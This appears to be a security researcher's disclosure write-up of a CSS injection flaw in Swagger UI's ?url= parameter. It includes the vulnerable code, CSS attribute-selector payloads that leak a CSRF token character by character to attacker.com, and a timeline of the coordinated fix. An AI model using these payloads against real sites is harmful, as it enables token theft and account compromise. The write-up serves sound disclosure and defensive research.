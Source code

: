 # CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [1][2] technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the CSRF token value.

**Researcher: Kevinlpd (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption.

## Background

We've discovered the vulnerability when reading the following in the document of Swagger [3]:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‐coded schema file
The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json format from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json content via the GET parameter to victim Swagger UI. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    
![](PoC-RPO-1.png)
    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d. Continue to try in turn for each character in range A-Z and range 0-9 until we found the first character in the CSRF token value:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:

![](sequential%20import%20chaining.png)

You can automate all of step by using the [sic](https://github.com/d0nutptr/sic) tool [5]

And we got the following result:

![](PoC-RPO-2.png)

    
## Tested versions

Swagger UI v3.23.10 and earlier

## Disclosure timeline

- September 17, 2019: Report and discuss with maintainer for Swagger UI.
- September 20, 2019: Ask maintainer for vulnerability disclosure.
- September 21, 2019: Swagger UI has released a new version that has addressed the vulnerability.
- September 21, 2019: Get approval from maintainer for disclosure on October 6, 2019.


## Reference

1. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
6. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [mitigate "sequential @import chaining" vulnerability issue #5616 ](https://github.com/swagger-api/swagger-ui/pull/5616)
12. [Swagger UI 3.23.11 Released! This release contains a security fix that addresses a CSS-based input field value exfiltration vulnerability](https://github.com/swagger-api/swagger-ui/releases/tag/v3.23.11)


